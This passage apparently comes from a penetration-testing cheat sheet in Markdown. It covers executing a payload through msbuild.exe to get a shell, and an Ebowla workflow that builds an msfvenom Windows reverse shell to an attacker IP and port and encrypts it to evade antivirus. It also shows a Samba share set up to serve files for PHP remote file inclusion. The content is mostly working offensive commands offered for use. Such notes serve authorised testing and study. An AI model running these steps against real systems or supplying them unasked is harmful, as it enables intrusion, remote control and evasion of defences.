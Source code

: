 Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```

* [github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [www.youtube.com/watch?v=krC5j1Ab44I&t=3730s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s)



### Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.167 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```




## LFI/RFI



### PHP RFI with SMB

`/etc/samba/smb.conf`:

```
log level = 3
[share]
        comment = TEMP
        path = /tmp/smb
        writable = no
        guest ok = yes
        guest only = yes
        read only = yes
        browsable = yes
        directory mode = 0555
        force user = nobody
```

```
root@kali:$ chmod 0555 /tmp/smb
root@kali:$ chown -R nobody:nogroup /tmp/smb
root@kali:$ service smbd restart
root@kali:$ tail -f /var/log/samba/log.<HOSTNAME>
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)